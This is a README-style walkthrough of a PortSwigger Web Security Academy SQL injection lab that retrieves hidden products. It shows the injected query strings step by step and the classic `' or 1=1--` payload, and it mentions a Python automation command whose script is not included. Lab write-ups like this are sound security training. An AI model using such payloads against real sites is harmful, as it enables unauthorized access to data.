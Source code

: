 # SQLi-Lab-01
This is ![Link-Lab](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
# Solve Lab-01
display all products both released and unreleased.
<br />

Query --> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1 `
<br />

1- The first step set `'` after value of parameter category -->  `?category='`
<br />

![step-1](screenshots/2.png)
<br />

1.1- Will appear an error `SELECT * FROM products WHERE category = ''' AND released = 1`.
<br />

![error](screenshots/3.png)
<br />

2- Step two set of after value of parameter category  `?category=' --`
<br />

![step-2](screenshots/4.png)
<br />

2.1- The error disappear `SELECT * FROM products WHERE category = ''--' AND released = 1`.
<br />

!['--](screenshots/5.png)
<br />

5- finally to solve this lab `' or 1=1--`.
<br />

![finally](screenshots/6.png)
<br />

5.1- finally Query `SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1`.

# Automation sove.
using the script python. `python3 https://0aa500220344ec58c0b8081900eb003c.web-security-academy.net "' or 1=1 --"`

<br />

Will appear this `[+] SQLi successful!` when successfully injection.
<br />

OR `[-] SQLi Falied`. when falied injection.
